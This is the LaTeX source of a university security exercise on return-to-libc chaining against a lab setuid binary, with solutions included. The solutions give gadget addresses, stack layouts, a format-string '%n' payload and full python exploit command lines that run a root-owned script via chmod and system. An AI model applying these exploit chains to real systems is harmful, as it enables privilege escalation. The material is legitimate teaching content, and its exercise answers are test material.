% IMPORTANT: add or remove (comment out) the boolean '\solutiontrue' below to
% create the solution document or the exercise document respectively.
% First we create the switch to make either the exercises or the solutions
\newif\ifsolution\solutionfalse
% To create the solution uncomment '\solutiontrue'
\solutiontrue

\documentclass[a4paper,11pt]{article}
\title{System Security,
\ifsolution Solution \else \fi
Return Oriented Programming}

\include{author}

\usepackage[T1]{fontenc}
\usepackage{ae, aecompl}
\usepackage{a4wide}
\usepackage{boxedminipage}
\usepackage{url}
\usepackage{graphicx}
\usepackage{enumerate}
\usepackage{hyperref}
\usepackage{textcomp}
% Some useful commands and environments
\usepackage{framed}
\usepackage{drawstack}
\usepackage{xcolor}
\usepackage{listings}

\lstset{
    frame=single,
    breaklines=true,
    postbreak=\raisebox{0ex}[0ex][0ex]{\ensuremath{\color{red}\hookrightarrow\space}}
}

\newenvironment{solution}%
{\par{\noindent\small\textit{Solution:}}\vspace{-12pt}\begin{framed}}%
{\end{framed}\par}


\begin{document}
\maketitle


\section*{Introduction}

This exercise introduces you to \textit{chained return-to-libc} attacks. It
builds on your knowledge from the previous exercise. Here, you will build
exploits for the binary program {\tt rop}.  The goal of this attack is to be
able to execute a shell script called {\tt somefile.sh}. Please use the
\texttt{rop} folder. To setup the \texttt{rop} folder, run
\texttt{setup.sh} (enter the syssec password when prompted).

\textbf{This is a long exercise. Please read each part carefully and answer all
  questions as they are all given points.}


\section{Goal}
In this exercise, you will have to chain several libc functions
to execute \texttt{somefile.sh} that you find in your \texttt{rop} folder. 
When you check the permissions of \texttt{somefile.sh}, you will see that it
can only be read/written by its owner (root in this case) --- so the normal user
(syssec) cannot execute it. 

However, the user (syssec), has access to a vulnerable setuid program, which is
\texttt{rop} that he can use to execute \texttt{somefile.sh}. His final goal is
to execute the equivalent of the following unix commands:

\begin{itemize}
\item chmod 700 ./somefile.sh
\item system(./somefile.sh)
\item chmod 600 ./somefile.sh
\end{itemize}

However note that the \textbf{user cannot simply try to get a root shell (as in the
previous exercise) and execute somefile.sh} because the creation of all shells is
being monitored/logged. So he has to resort to executing \texttt{somefile.sh}
without explicitly spawning a shell. More specifically, his goal is to chain
libc-functions that will help him achieve his goal.

\section*{Structure of the Exercise and Advice}
The rest of this exercise is organized in terms of small steps that will allow
you to achieve the above goals.

\begin{itemize}
\item Please \texttt{do not} run your exploits in the folder that is shared
  between your VM and host.
\item Note that this program is slightly different from the older exercise - you
  are allowed only one commandline input and one input at runtime. You have to
  redo you analysis of stack frames before you exploit the new \texttt{rop}
  executable.
\item Do not exploit the input taken at run-time
\item Please run your eventual exploit outside of gdb - otherwise, it will not
  work. Intermediate exploit(s) can be run inside gdb.
\item As mentioned earlier, you cannot simply spawn a root shell and complete
  the exercise - you have to chain libc calls.
\item You are allowed \textbf{at most 2} environment variables for the final
  exploit (in addition to the commandline and runtime inputs)
\item Your exploit has to end without a segmentation fault, but does not have to
give a specific exit code.
\end{itemize}

\section*{Unix File Permissions}
In unix-based file systems, every file has a 9-bit permission string. The highest
three bits are for read, write and execute permissions for the owner.  The middle
three and last three represent similar permissions for the group and others
respectively. Furthermore, there is a 'setuid' permission bit that if set allows
any user to execute the file with the permissions of its owner.

\noindent With respect to \texttt{somefile.sh}, answer the following questions:
\begin{itemize}
\item Who is the owner of \texttt{somefile.sh}?
\ifsolution\begin{solution}
The owner of \texttt{somefile.sh} is \texttt{root}.
\end{solution}\fi

\item Who is allowed to read \texttt{somefile.sh}?
\ifsolution\begin{solution}
Only \texttt{root} is allowed to read \texttt{somefile.sh}.
\end{solution}\fi
\item Who is allowed to write \texttt{somefile.sh}?
\ifsolution\begin{solution}
Only \texttt{root} is allowed to write \texttt{somefile.sh}.
\end{solution}\fi
\item Who is allowed to execute \texttt{somefile.sh}?
\ifsolution\begin{solution}
No user is allowed to execute the \texttt{somefile.sh}.
\end{solution}\fi
\item What is the 32-bit hexadecimal representation of the current permissions
  of \texttt{somefile.sh}?
\ifsolution\begin{solution}
The current permissions in octal representation is \texttt{0600}, which is equivalent in 32-bit hexadecimal representation with \texttt{0x00000180}. 
\end{solution}\fi
\item What is the 32-bit hexadecimal representation for the mode 0700? 
\ifsolution\begin{solution}
The 32-bit hexadecimal representation for the mode 0700 is \texttt{0x000001C0}.
\end{solution}\fi
\end{itemize}

\section*{Format String Vulnerabilities}

C library functions like \texttt{printf} and \texttt{scanf} accept format
strings as a first argument and then a set of variable parameters. If the user
can supply the first argument, the execution can have undesired consequences.
For instance, some format strings are especially dangerous because they can be
used to overwrite arbitrary memory locations. The ``\%n" format string is one
such example. 

\noindent Please answer the following questions regarding its use.

\begin{itemize}
\item What is the value of 'i' after the following code executes \texttt{int i;
    printf("\%n",\&i);}?  

\ifsolution
\begin{solution}
The value of 'i' is \texttt{0}. It stores the number of characters written by the \texttt{printf}
up to the \texttt{\%n} format string. 
\end{solution}\fi
\item What is the value of 'i' after the following code executes \texttt{int i;
    printf("\%16x\%n",i,\&i);}?
\ifsolution\begin{solution}
The value of 'i' is \texttt{16}.
\end{solution}\fi
\end{itemize}

\section*{Chaining Arbitrary Functions}
Assume that cpybuf is a vulnerable function whose buffer can be
overflowed. Consider the following functions: \texttt{void a(\(pa\));} and
\texttt{void b(\(pb1, pb2\));} 

\begin{figure}[t]
    \centering
    
\includegraphics[width=0.8\linewidth]{./stacks.pdf}
    \caption{Potential stack frames for chaining functions \texttt{a} and \texttt{b}.}
    \label{fig:stacks}
\end{figure}

\begin {itemize}
\item Now, if on overflowing cpybuf, one would first like to execute function
\texttt{a} with parameter \texttt{pa}, then function \texttt{b} with
parameters \texttt{pb1} and \texttt{pb2}  and finally \texttt{exit}, does the
stack layout on the left in Figure~\ref{fig:stacks} work? Justify your answer.
\ifsolution\begin{solution}
No. The stack layout on the left does not work because the address of function \texttt{exit} is provided as input argument for function \texttt{a}. It should overwrite the return address of \texttt{b}.
\end{solution}\fi

\item Given the stack on the right in Figure~\ref{fig:stacks}, what instructions
  must the placeholder point to in order to make functions \texttt{a} and
  \texttt{b} execute correctly? \textbf{Hint: When function
    \texttt{a} returns, the stack pointer points to the placeholder. Now you have to
    remove the parameter \texttt{pa} and the jump to the next
    location pointed to by the \$esp, which would be \texttt{address of b()}.}
\ifsolution\begin{solution}
\begin{lstlisting}
add esp, 0x4 ;remove the parameter pa 
ret          ;pops the address of b() and jump to b()
\end{lstlisting}
\end{solution}\fi

\item Could you find the instructions required in the placeholder anywhere in your program already?
\ifsolution\begin{solution}
Yes, in the epilogue of function \texttt{\_init}.
\begin{lstlisting}
8048379:  pop    %ebx
804837a:  ret    
\end{lstlisting}
\end{solution}\fi
\end{itemize}

\section*{Simple Libc Chaining}
This is your first task of chaining libc-functions. On doing this successfully,
you will know how to manipulate the stack to chain arbitrary functions. On
examining the source code of \texttt{rop}, you will see that it has a global
variable called 'test'. Your task to exploit \texttt{rop}, overwrite 'test' to
\texttt{0x100} using printf and also print its value using the
\texttt{print\_test} function which is part of \texttt{rop}. In other words,
please chain \texttt{printf}, \texttt{print\_test} and \texttt{exit} to achieve
this. \textbf{You do not have to accomplish this task outside of gdb.}




\noindent Please answer the following questions regarding this task:

\begin{itemize}
\item What is the address of variable 'test'?
\ifsolution\begin{solution}

\begin{lstlisting}
(gdb) info variables test
All variables matching regular expression "test":

Non-debugging symbols:
0x08049980  test
\end{lstlisting}

The address of variable 'test' is \textbf{0x08049980}.
\end{solution}\fi
\item What \texttt{printf} command will let you overwrite variable 'test'
  appropriately?
\ifsolution\begin{solution}
\begin{lstlisting}
  printf("%0256x%n",&test , &test);
\end{lstlisting}
\end{solution}\fi
\item What instructions do you need to 'fix' the stack after calling
  \texttt{printf} and before calling \texttt{print\_test}? \textbf{Hint: How
    many parameters of \texttt{printf} do you have to remove before jumping to \texttt{print\_test}?}
\ifsolution\begin{solution}
The three arguments of \texttt{printf} have to be removed from the stack before calling \texttt{print\_test}. This taks 
can be perfomed using the following instruction:
\begin{lstlisting}
add  esp,0xc
\end{lstlisting}
If this instruction does not exist in the program, it can be replaced by 3 pop instrucitons which provide the same functionality. 
These can be found in the  epilogues of function \texttt{\_\_libc\_csu\_init}:
\begin{lstlisting}
 8048679: pop    %esi
 804867a: pop    %edi
 804867b: pop    %ebp
 \end{lstlisting} 

\end{solution}\fi
\item When you chain \texttt{printf}, \texttt{print\_test} and \texttt{exit}, what does the stack
  layout look like after you overflow the vulnerable buffer in \texttt{cpybuf}
  but before you return from \texttt{cpybuf}?
\ifsolution\begin{solution}

\begin{tikzpicture}[scale=1.2]
  \stacktop{}
   \cell{0x08049980} \cellcomL{address of global variable test} \cellcom{ebp+36}
  \cell{0xb7e24a60} \cellcomL{address of exit()} \cellcom{ebp+32}
  \cell{0x0804850b} \cellcomL{address of test\_print()} \cellcom{ebp+28}
 \cell{0x08049980} \cellcomL{address of global variable test} \cellcom{ebp+24}
 \cell{0x08049980} \cellcomL{address of global variable test} \cellcom{ebp+20}
 \cell{ 0xbfffffeb} \cellcomL{address of env FMT="\%0256x\%n"} \cellcom{ebp+16}
  \cell{0x08048679} \cellcomL{epilogue of \_\_libc\_csu\_init()}
 \cellcom{ebp+12}
  \cell{0x08048390} \cellcomL{Saved RET: address of printf()} \cellcom{ebp+8}
  \cell{"AAAA"} \cellcomL{Saved EBP: Base pointer} \cellcom{ebp+4}
  \cell{"AAAA"} \cellcomL{buff[16:19]} \cellcom{ebp}
  \cell{"AAAA"} \cellcomL{buff[12:15]} \cellcom{ebp-4}
  \cell{"AAAA"} \cellcomL{buff[8:11]} \cellcom{ebp-8}
  \cell{"AAAA"} \cellcomL{buff[4:7]} \cellcom{ebp-12}
  \cell{"AAAA"} \cellcomL{buff[0:3]} \cellcom{ebp-16}
  \stackbottom{}
  \cell[draw=none]{Stack of cpybuf() after overflow}
\end{tikzpicture}
\newpage
The epilogue of \_\_libc\_csu\_init() function:
\begin{lstlisting}
 8048679: pop    %esi
 804867a: pop    %edi
 804867b: pop    %ebp
 804867c: ret
 \end{lstlisting} 

\end{solution}\fi
\item What is the final command that you used to successfully run this exploit?
\ifsolution\begin{solution}
\begin{lstlisting}
% export FMT="%0256x%n"
% ./rop "`python2.7 -c 'from struct import pack; print("A"*24 + pack("I", 0x8048390) + pack("I", 0x8048679) + pack("I", 0xbfffffeb) + pack("I", 0x08049980) + pack("I", 0x08049980) + pack("I", 0x0804850b) + pack("I", 0xb7e24a60) + pack("I", 0x08049980))'`"

Enter your help string:test

Your help string is test
0000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000
0000000000000000000000000000000000000000000000000000000000
000000000000000008049980804850b
Value of test is 256
\end{lstlisting}
\end{solution}\fi
\end{itemize}

\section*{Final Task: Creating Longer Libc Chains}
Finally, you will now design and run the original exploit to run
\texttt{somefile.sh}. You are allowed to use \textbf{only two environment
  variables} for this task. \textbf{You have to accomplish this task both inside
  and outside of gdb.}.  When you specify the shell file to execute (either to
the program or as an environment variable), please enter ``./somefile.sh'' (and
not just ``somefile.sh''). 

\noindent Please answer the following questions regarding this task:

\begin{itemize}
\item What libc functions would you chain to achieve the equivalent of the three
  commands listed under the goals of this exercise? Please provide your answer as
  a list of function calls with appropriate parameters.
\ifsolution\begin{solution}
\begin{lstlisting}[language=c]
chmod("./somefile.sh", 0x1C0);
system("./somefile.sh");
chmod("./somefile.sh", 0x180);
\end{lstlisting}
\end{solution}\fi
\item Do these calls work as an exploit? Justify your
  answer. \texttt{Hint: The \texttt{strcpy} function that is used to overflow
    the buffer stops on encountering a \texttt{NULL} byte.}
\ifsolution\begin{solution}
Yes, if the string argument \emph{./somefile.sh} is provided in an separate input which is different than the one used to inject the exploit. 
\end{solution}\fi
\item What would you do to overcome it? Can you think of some functions to
generate the required values? Please list the
  required function calls with appropriate parameters. \texttt{Hint:
    you have done this already in the exercise if you got this far.}
\ifsolution\begin{solution}
The two numerical arguments can be packed in the \texttt{stdin} from which the the \texttt{rop} program reads the data at run-time.
\begin{lstlisting}[language=python]
./rop  exploit <<< "`python2.7 -c 'from struct import pack; print(pack("I", 0x000001C0) + pack("I", 0x00000180))'`"
\end{lstlisting} 

The string argument \emph{"./somefile.sh"} can be provided in an environment variable.
\begin{lstlisting}
export SCRIPT="./somefile.sh"
\end{lstlisting} 

\end{solution}\fi
\item Given that \texttt{rop} takes one commandline input and one input at run-time, where could you put any
  additional inputs that you need? Please specify the exact unix commands that
  you used to do this.
\ifsolution\begin{solution}
The additional inputs can be placed in environment variables as follows:
\begin{lstlisting}
export SCRIPT="./somefile.sh"
\end{lstlisting} 
\end{solution}\fi
\item Please sketch the stack layout that you used with annotations if
necessary.
\ifsolution\begin{solution}

\begin{tikzpicture}[scale=1.2]
  \stacktop{}
  \cell{0xb7e24a60} \cellcomL{address of exit()}                               \cellcom{ebp+52}
  \cell{0x080499ac} \cellcomL{address of variable helpstr + 4 (0x180)}         \cellcom{ebp+48}
  \cell{0xbfffffbd} \cellcomL{address of env SCRIPT="./somefile.sh"}           \cellcom{ebp+44}
  \cell{0x0804868a} \cellcomL{epilogue of \_\_libc\_csu\_init()}               \cellcom{ebp+40}
  \cell{0xb7eceba0} \cellcomL{address of chmod()}                              \cellcom{ebp+36}
  \cell{0xbfffffbd} \cellcomL{address of env SCRIPT="./somefile.sh"}           \cellcom{ebp+32}
  \cell{0x0804868b} \cellcomL{epilogue of \_\_libc\_csu\_init()}               \cellcom{ebp+28}
  \cell{0xb7e30ea0} \cellcomL{address of system()}                             \cellcom{ebp+24}
  \cell{0x080499a8} \cellcomL{address of variable helpstr (0x1C0)}             \cellcom{ebp+20}
  \cell{0xbfffffbd} \cellcomL{address of env SCRIPT="./somefile.sh"}           \cellcom{ebp+16}
  \cell{0x0804868a} \cellcomL{epilogue of \_\_libc\_csu\_init()}               \cellcom{ebp+12}
  \cell{0xb7eceba0} \cellcomL{Saved RET: address of chmod()}                   \cellcom{ebp+8}
  \cell{"AAAA"}     \cellcomL{Saved EBP: Base pointer}                         \cellcom{ebp+4}
  \cell{"AAAA"}     \cellcomL{buff[16:19]}                                     \cellcom{ebp}
  % \cell{"AAAA"}     \cellcomL{buff[12:15]}                                     \cellcom{ebp-4}
  % \cell{"AAAA"}     \cellcomL{buff[8:11]}                                      \cellcom{ebp-8}
  % \cell{"AAAA"}     \cellcomL{buff[4:7]}                                       \cellcom{ebp-12}
  % \cell{"AAAA"}     \cellcomL{buff[0:3]}                                       \cellcom{ebp-16}
  \stackbottom{}
  \cell[draw=none]{Stack of cpybuf() after overflow}
\end{tikzpicture}
\newpage
The epilogue of \_\_libc\_csu\_init() function:
\begin{lstlisting}
 0x804868a:  pop    %edi
 0x804868b:  pop    %ebp
 0x804868c:  ret
 \end{lstlisting} 

\end{solution}\fi
\item What is the final exploit string that you used to accomplish this task? (The final exploit should not use gdb.)
\ifsolution\begin{solution}
\begin{lstlisting}[language=python]
~/rop % export SCRIPT=./somefile.sh

~/rop % ./rop "`python2.7 -c 'from struct import pack; print("A"*24 + pack("I", 0xb7eceba0) + pack("I", 0x0804868a) + pack("I", 0xbfffffbd) + pack("I", 0x080499a8) + pack("I", 0xb7e30ea0) + pack("I", 0x0804868b) + pack("I", 0xbfffffbd) + pack("I", 0xb7eceba0) + pack("I", 0x0804868a) + pack("I", 0xbfffffbd) + pack("I", 0x080499ac) + pack("I", 0xb7e24a60))'`" <<< "`python2.7 -c 'from struct import pack; print(pack("I", 0x000001C0) + pack("I", 0x00000180))'`"

Enter your help string:
Your help string is
Super secret password is syssec

~/rop % ls -al somefile.sh 
-rw------- 1 root users 50 Nov 21 07:20 somefile.sh
\end{lstlisting}
\end{solution}\fi
\end{itemize}
\begin{thebibliography}{---}
\bibitem[1]{vuln} Format String, Gotfault Security Community, \url{https://www.exploit-db.com/papers/13239/}
\end{thebibliography}

\end{document}


